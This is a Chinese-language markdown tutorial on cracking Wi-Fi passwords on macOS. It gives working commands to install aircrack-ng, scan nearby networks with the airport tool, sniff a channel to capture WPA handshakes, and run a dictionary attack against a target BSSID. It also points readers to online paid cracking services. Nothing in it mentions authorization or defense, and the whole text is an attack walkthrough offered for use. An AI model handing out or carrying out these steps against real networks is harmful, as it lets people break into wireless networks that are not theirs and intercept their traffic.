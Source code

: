 # MacOS Wi-Fi 密码破解

## 第一步：安装aircrack-ng

```bash
brew install aircrack-ng
```

## 第二步：获取本机无线网卡

通过ifconfig命令获取当前的网卡的名字， 我这边网卡名字为en0：

![1136594-20190509113023452-1542251724.png](img/1136594-20190509113023452-1542251724.png)

## 第三步：获取所有的无线网络

使用mac系统自带的airport工具， 查看当前的无线网络， 以及它们的相关信息

```bash
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s
```

以下为我附近所有的wifi， 注意看表格， SSID， BSSID， CHANNEL，这些关键词都会在后面提到：

![1136594-20190509113023452-1542251724.png](img/1136594-20190509113023452-1542251724.png)

## 第四步：开始抓包 ， 收集监听周围无线网络的数据

参数en0是我电脑的默认网卡， 数字6是网卡需要监听的网络频道:

```bash
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 sniff 6
```

开始监听以后， wifi的图标会发生改变

![497865-20170108232218441-1459515906.png](img/497865-20170108232218441-1459515906.png)

监听久一点， 然后使用ctrl+c停止监听， 系统会把监听到的数据保存到本地，数据保存到/tmp/airportSniffdaMCjH.cap文件中：

![497865-20170108231500300-323707699.png](img/497865-20170108231500300-323707699.png)

在监听的过程中如果有用户登陆这个wifi， 那么包就会被我们截获， 如果用户一直没有登陆到这个wifi， 我们就还要继续等待监听， 尽量在手机或者手提电脑所用高峰期开启捕获， 这样捕获握手（handshake）的几率比较高

## 第五步：查看cap文件中的数据是否被抓取到 handshake

```bash
sudo aircrack-ng   /tmp/airportSniff8g0Oex.cap
或者直接使用命令：
sudo aircrack-ng   /tmp/airportSniff8g0Oex.cap | grep "1 handshake"
```

如果要查询的路由列表的Encryption值为WPA(1 handshake) ，说明抓取成功， 否者跳到第四步，要重新抓取：

![1136594-20190509113336664-1554660098.png](img/1136594-20190509113336664-1554660098.png)

## 第六步：输入命令air-crack开始破解

-w 后面的dict.txt是字典文件，只要字典够大， 密码破出来应该指日可待， 字典可以自己去做，或者网上下载
-b 后面的参数bc:46:99:df:6c:72指的是网卡的BSSID， 最后面的一个文件路径是上一步监听到的数据

```bash
sudo aircrack-ng -w dict.txt -b bc:46:99:df:6c:72 /tmp/airportSniffdaMCjH.cap
```

破解成功以后，命令行会显示KEY FOUND ：

![1136594-20190509113431926-550261239.png](img/1136594-20190509113431926-550261239.png)

如果觉的自己弄个字典爆破很麻烦， 有些第三方的网站提供免费爆破，或者收费的爆破，https://gpuhash.me/
